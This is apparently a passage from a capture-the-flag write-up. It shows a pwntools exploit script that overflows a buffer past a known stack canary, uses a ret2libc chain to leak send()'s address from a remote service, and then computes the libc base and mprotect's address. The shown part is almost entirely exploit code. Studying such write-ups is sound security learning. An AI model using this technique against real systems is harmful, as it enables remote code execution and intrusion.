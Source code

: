 Here's the final exploit:

```
#!/usr/bin/env python

from pwn import *
import sys

context(os="linux", arch="i386")

# canary returned by brute.py
canary = "\x00\x19\x78\xcc"

buf_1 = "A"*40
buf_1 += canary
buf_1 += "B"*12

# -- STAGE 1 ret2libc to leak address of send() and calculate libc base address

# ret2libc
buf_2 = ""
buf_2 += p32(0x8048700)   # send@plt
buf_2 += "CCCC"
buf_2 += p32(0x4)         # sockfd
buf_2 += p32(0x0804b064)  # send@got
buf_2 += p32(0x4)         # len
buf_2 += p32(0x0)         # flags
buf_2 += "D"*200

payload = buf_1 + buf_2

r = remote("110.10.212.130", 8889)

r.recvuntil("Select menu > ")
r.sendline("2")

r.recvuntil("Input Your Message : ")
r.send(payload)

r.recvuntil("Select menu > ")

r.sendline("3")
d = r.recv()

# receive leaked address of send()
leak_send = r.recv()

print "Leaked function:"
print hexdump(leak_send)

# use http://libcdb.com/ to get libc version on server. 
# in this case it's libc-2.19_16.so. we can then get
# offsets for send(), mprotect(), and read()
offset_send = 0x000ed450
offset_mprotect = 0x000e70d0
offset_read = 0x000dabd0

# calculate libc base and addresses of mprotect() and read()
libc_base = u32(leak_send) - offset_send
print "libc base:", hex(libc_base)

addr_mprotect = libc_base + offset_mprotect
print "mprotect :", hex(addr_mprotect)

```